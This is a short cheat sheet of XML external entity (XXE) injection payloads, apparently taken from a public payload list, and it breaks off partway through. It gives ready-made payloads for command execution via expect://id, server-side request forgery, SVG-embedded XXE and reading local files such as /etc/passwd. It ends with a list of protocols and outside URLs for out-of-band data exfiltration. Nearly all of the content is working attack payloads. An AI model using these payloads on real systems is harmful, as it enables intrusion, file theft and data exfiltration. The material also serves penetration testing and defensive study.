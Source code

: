 
### XXE to RCE
```xml
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY exploit SYSTEM "expect://id"> ]>
<userInfo>
 <firstName>John</firstName>
 <lastName>&exploit;</lastName>
</userInfo>
```
### XXE to SSRF
```xml
<?xml version="1.0"?>
<!DOCTYPE foo [  
<!ELEMENT foo (#ANY)>
<!ENTITY xxe SYSTEM "https://www.example.com/text.txt">]><foo>&xxe;</foo>
```
### XXE inside SVG
`RCE`
```xml
<svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" width="300" version="1.1" height="200">
    <image xlink:href="expect://id"></image>
</svg>
```
`LFI`
```xml
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
   <text font-size="16" x="0" y="16">&xxe;</text>
</svg>
```

#### [source](https://github.com/payloadbox/xxe-injection-payload-list)

### Exploitable Protocols

File: could be used to read local file on the server
	
	file:///etc/passwd

HTTP(s): useful in OOB Data Exfiltration
	
	http(s)://securityidiots.com/lol.xml

FTP: useful in OOB Data Exfiltration & hitting the internal FTP service which is behind NAT
	
	ftp://securityidiots.com/lol.xml

SFTP: hitting the internal SFTP service which is behind NAT
	